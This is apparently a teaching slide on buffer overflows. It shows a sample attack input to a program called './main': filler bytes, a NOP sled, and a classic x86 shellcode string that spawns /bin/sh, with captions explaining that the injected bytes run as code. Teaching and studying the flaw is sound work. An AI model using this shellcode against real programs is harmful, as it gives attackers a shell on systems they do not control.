

# Buffer Overflow : Sample Attack & Risk
8 bytes : fill the buffer

NO-OP in assembly code
./main  AAAAAAAA
     \x90\x90\x90\x90
     \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

Malicious Payload in assembly code
... will be executed "as if it was a compiled code"